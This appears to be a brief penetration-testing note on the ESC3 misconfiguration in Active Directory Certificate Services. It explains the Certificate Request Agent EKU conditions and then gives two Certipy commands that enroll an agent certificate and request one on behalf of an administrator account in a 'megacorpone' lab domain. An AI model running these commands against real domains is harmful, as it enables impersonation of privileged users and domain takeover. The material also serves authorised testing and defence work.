 # General Overview

An ESC3 vulnerable template permits the issuance of certificates on behalf of any user, enabling the potential impersonation of other users. This vulnerability arises because the template includes the Certificate Request Agent EKU. Specifically, the Certificate Request Agent OID (1.3.6.1.4.1.311.20.2.1) grants the ability to request certificates on behalf of other principals.

To exploit this misconfiguration, the Certificate Authority (CA) must have at least two templates that meet the following conditions:

1. The template allows a low-privileged user to enroll in an enrollment agent certificate.
2. The Approval Manager is disabled.
3. Authorized signatures are not required.
4. The certificate template defines the Certificate Request Agent EKU, enabling the request of other certificate templates on behalf of other principals.

# Abusing ESC3 Certificates

## Certipy:
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' 
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'  -on-behalf-of 'Megacorpone\Xadmin' -pfx 'xadmin.pfx'